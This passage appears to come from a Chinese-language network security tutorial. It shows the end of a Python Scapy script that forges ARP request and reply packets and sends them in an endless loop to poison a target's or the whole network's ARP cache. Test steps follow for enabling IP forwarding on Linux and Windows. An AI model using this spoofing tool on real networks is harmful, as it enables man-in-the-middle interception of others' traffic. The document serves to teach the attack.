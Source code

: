 ```Python
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标ip的mac地址")
                sys.exit(1)
            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target)
        return pkt
    
    def build_rep():#构造响应数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], op=2)
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标mac地址")
                sys.exit(1)

            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target, op=2)
        
        return pkt

    while True:#发送
        sendp(pkt, inter=2, iface=options.interface)

if __name__ == '__main__':
    main()
```

### 3.5.5 简单测试

在做ARP欺骗测试的时候，一定要先开启本机的IP转发功能，否则会失败的。执行如下命令：

```
sysctl net.ipv4.ip_forward=1
```

Windows系统中IP转发功能默认是关闭的。
开启方法：

1. 开始运行里面输入regedit 打开注册表编辑器(以管理员身份运行)
2. 在注册表定位下面注册表项
HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/ Services/Tcpip/Parameters
3. 选择下面的项目：
IPEnableRouter:REG_DWORD:0x0
4. 找到项目鼠标右键修改数值为1